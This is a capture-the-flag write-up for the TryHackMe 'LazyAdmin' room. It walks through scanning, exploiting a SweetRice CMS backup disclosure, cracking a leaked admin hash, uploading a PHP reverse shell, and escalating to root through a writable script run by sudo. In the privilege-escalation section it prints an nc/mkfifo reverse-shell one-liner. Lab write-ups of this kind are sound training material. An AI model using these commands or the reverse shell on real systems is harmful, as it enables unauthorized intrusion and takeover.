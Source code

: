 # LazyAdmin-THM


----

# Info

| Name         |   Lazy Admin                                       | 
| ------       | -----------------                                  |
| Room link    | https://tryhackme.com/room/lazyadmin               |  
| Difficulty   | Easy                                               |
| Created by   | [MrSeth6797](https://tryhackme.com/p/MrSeth6797)   |
| solving date | May 18th 2022                                      |
----



<details>

<summary> Recon (Click Me)</summary>

- after starting the machine `export target=10.10.244.50`

## nmap

- start initial nmap scan
    
    ```
    # Nmap 7.92 scan initiated Wed May 18 02:32:34 2022 as: nmap -Pn -vv -sS -sV -oN lazyadmin/initial 10.10.244.50
    Increasing send delay for 10.10.244.50 from 0 to 5 due to 248 out of 826 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 40 to 80 due to 11 out of 14 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 80 to 160 due to 11 out of 12 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
    Nmap scan report for 10.10.244.50
    Host is up, received user-set (0.10s latency).
    Scanned at 2022-05-18 02:32:35 EDT for 110s
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed May 18 02:34:25 2022 -- 1 IP address (1 host up) scanned in 110.45 seconds
    ```
    
- 22 and 80 are open
- Let’s Navigate to the website, it’s apache2 webserver
    
    ![Untitled](images/Untitled.png)
    

---

## Website Content Discovery

- view robots.txt
    - there is no robots.txt file,
    
    ![Untitled](images/Untitled%201.png)
    
- let’s fuzz this website using ffuf
- `ffuf -w /mnt/hgfs/Pentesting\ Share/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$target/FUZZ`
    - /content found, let’s view this page
        
        ![Untitled](images/Untitled%202.png)
        
        - it’s running SweetRice CMS
- searching for any exploit with `searchsploit`
    
    ![Untitled](images/Untitled%203.png)
    
    `SweetRice 1.5.1 - Backup Disclosure         | php/webapps/40718.txt` 
    
    - exploit content:
        
        ```
        Title: SweetRice 1.5.1 - Backup Disclosure
        Application: SweetRice
        Versions Affected: 1.5.1
        Vendor URL: http://www.basic-cms.org/
        Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
        Discovered by: Ashiyane Digital Security Team
        Tested on: Windows 10
        Bugs: Backup Disclosure
        Date: 16-Sept-2016
        
        Proof of Concept :
        
        You can access to all mysql backup and download them from this directory.
        http://localhost/inc/mysql_backup
        
        and can access to website files backup from:
        http://localhost/SweetRice-transfer.zip
        ```
        
- let’s fuzz /content directory
- `ffuf -w /mnt/hgfs/Pentesting\ Share/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$target/content/FUZZ`
- images, js, inc, as, themes, attachment found
- let’s try the exploit with /content/inc directory
    
    ![Untitled](images/Untitled%204.png)
    
- download mysql backup in [http://10.10.244.50/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql](http://10.10.244.50/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql)
- backup content
    
    ```
    <?php return array (
      0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
      1 => 'CREATE TABLE `%--%_attachment` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `post_id` int(10) NOT NULL,
      `file_name` varchar(255) NOT NULL,
      `date` int(10) NOT NULL,
      `downloads` int(10) NOT NULL,
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      2 => 'DROP TABLE IF EXISTS `%--%_category`;',
      3 => 'CREATE TABLE `%--%_category` (
      `id` int(4) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `link` varchar(128) NOT NULL,
      `title` text NOT NULL,
      `description` varchar(255) NOT NULL,
      `keyword` varchar(255) NOT NULL,
      `sort_word` text NOT NULL,
      `parent_id` int(10) NOT NULL DEFAULT \'0\',
      `template` varchar(60) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `link` (`link`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
      5 => 'CREATE TABLE `%--%_comment` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(60) NOT NULL DEFAULT \'\',
      `email` varchar(255) NOT NULL DEFAULT \'\',
      `website` varchar(255) NOT NULL,
      `info` text NOT NULL,
      `post_id` int(10) NOT NULL DEFAULT \'0\',
      `post_name` varchar(255) NOT NULL,
      `post_cat` varchar(128) NOT NULL,
      `post_slug` varchar(128) NOT NULL,
      `date` int(10) NOT NULL DEFAULT \'0\',
      `ip` varchar(39) NOT NULL DEFAULT \'\',
      `reply_date` int(10) NOT NULL DEFAULT \'0\',
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
      7 => 'CREATE TABLE `%--%_item_data` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `item_id` int(10) NOT NULL,
      `item_type` varchar(255) NOT NULL,
      `data_type` varchar(20) NOT NULL,
      `name` varchar(255) NOT NULL,
      `value` text NOT NULL,
      PRIMARY KEY (`id`),
      KEY `item_id` (`item_id`),
      KEY `item_type` (`item_type`),
      KEY `name` (`name`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
      9 => 'CREATE TABLE `%--%_item_plugin` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `item_id` int(10) NOT NULL,
      `item_type` varchar(255) NOT NULL,
      `plugin` varchar(255) NOT NULL,
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      10 => 'DROP TABLE IF EXISTS `%--%_links`;',
      11 => 'CREATE TABLE `%--%_links` (
      `lid` int(10) NOT NULL AUTO_INCREMENT,
      `request` text NOT NULL,
      `url` text NOT NULL,
      `plugin` varchar(255) NOT NULL,
      PRIMARY KEY (`lid`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      12 => 'DROP TABLE IF EXISTS `%--%_options`;',
      13 => 'CREATE TABLE `%--%_options` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `content` mediumtext NOT NULL,
      `date` int(10) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `name` (`name`)
    ) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
      14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
      15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
      16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
      17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
      18 => 'CREATE TABLE `%--%_posts` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `title` varchar(255) NOT NULL,
      `body` longtext NOT NULL,
      `keyword` varchar(255) NOT NULL DEFAULT \'\',
      `tags` text NOT NULL,
      `description` varchar(255) NOT NULL DEFAULT \'\',
      `sys_name` varchar(128) NOT NULL,
      `date` int(10) NOT NULL DEFAULT \'0\',
      `category` int(10) NOT NULL DEFAULT \'0\',
      `in_blog` tinyint(1) NOT NULL,
      `views` int(10) NOT NULL,
      `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
      `template` varchar(60) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `sys_name` (`sys_name`),
      KEY `date` (`date`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
    );?>
    ```
    
- "passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\” I think it’s a hashed password, so let’s crack it using hashes.com

---



</details>


<details>
    <summary>Gaining Access (Click Me)</summary>

![Untitled](images/Untitled%205.png)

- great, now we have the password for user ‘manager’ and he is admin, let’s navigate to the discovered directories to find admin login page
- images, js, inc, as, themes, attachment, we can find the login page in /content/as
- try the username and the password we found
    
    ![Untitled](images/Untitled%206.png)
    
    ![Untitled](images/Untitled%207.png)
    
- we can see there is ads section and there is ads directory in /content/inc (remember from [here](images.md)), so let’s create an ad with our php reverse shell
    
    ![Untitled](images/Untitled%208.png)
    
- now we can run the code by navigating to http://<host-IP>/content/inc/ad/juba.php

---

</details>




<details>
    <summary>Stabilize the shell (Click Me)</summary>

```bash
$ which python
/usr/bin/python
$ python -c 'from pty import spawn ; spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm  
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -nlvp 9050
                                                                                                                                           
┌──(root💀kali)-[/home/juba]
└─# stty raw -echo ; fg                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 9050

www-data@THM-Chal:/$
```
---

</details>




<details>
    <summary>User.txt flag</summary>


```bash
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media   proc  sbin  sys  var
cdrom  home  lib         mnt     root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy/
www-data@THM-Chal:/home/itguy$ ls 
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{63e*****************************}
www-data@THM-Chal:/home/itguy$
```

---
</details>


<details>
    <summary>Privilege Escalation</summary>


```bash
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

- Oh !!, he is a very lazy sysad, I can run perl and backup.pl as root with no password
- backup.pl content, if we list the file we will see that there is no write permission for us

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

- but if we list copy.sh we will see this
    
    ```perl
    www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh 
    -rw-r--rwx 1 root root 97 May 18 11:15 /etc/copy.sh
    ```
    
- we can edit copy.sh, we can type a reverse shell inside the file, but for simplicity we will use `bash -p`
    
    ```bash
    root@THM-Chal:/etc# cat copy.sh 
    whoami
    bash -p
    # rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
    www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
    root
    root@THM-Chal:/etc# whoami
    root
    ```
    
    - Great, we are root
- get root.txt flag
    
    ```bash
    root@THM-Chal:/etc# cd 
    root@THM-Chal:~# ls
    root.txt
    root@THM-Chal:~# cat root.txt
    THM{663*****************************}
    ```
    

---
</details>


---

## I hope you enjoyed the write-up
 
- [Linkedin](https://www.linkedin.com/in/juba0x00/)
- [Twitter](https://twitter.com/juba0x00/)
- [TryHackMe](https://tryhackme.com/p/Juba0x430x55)